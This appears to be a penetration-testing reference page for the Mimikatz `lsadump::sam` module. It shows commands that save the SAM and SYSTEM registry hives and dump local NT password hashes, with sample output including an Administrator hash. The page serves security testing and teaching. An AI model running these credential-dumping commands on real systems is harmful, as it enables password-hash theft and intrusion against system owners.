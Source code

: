 # sam

`lsadump::sam` dumps the local Security Account Manager (SAM) NT hashes (cf. [SAM secrets dump](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets)). It can operate directly on the target system, or offline with registry hives backups (for `SAM` and `SYSTEM`). It has the following command line arguments:

It dumps the local Security Account Manager (SAM) NT hashes (cf. [SAM secrets dump](https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets)). It can operate directly on the target system, or offline with registry hives backups (for `SAM` and `SYSTEM`). It has the following command line arguments:

* `/sam`: the offline backup of the SAM hive
* `/system`: the offline backup of the SYSTEM hive

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "NTLM" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

### Dumping the target

```
mimikatz # lsadump::sam
Domain : DC
SysKey : 7852ea75b3b8c4093fbda3f618a045bb
Local SID : S-1-5-21-97532702-2134717100-614679475

SAMKey : 7a87c9ff42815d7d1cead9fe84db22ba

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 4d01f91984530f183381bdf5f0605f63

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount
```

### Offline dumping

At first a backup of`SYSTEM` and `SAM` hives must be obtained:

```powershell
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
```

A Volume Shadow Copy / BootCD can also be used to backup these files:

```
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SAM
```

Then the saved backups of `SYSTEM` and `SAM` hives can also be used offline:

```
mimikatz # lsadump::sam /system:system.hive /sam:sam.hive
```
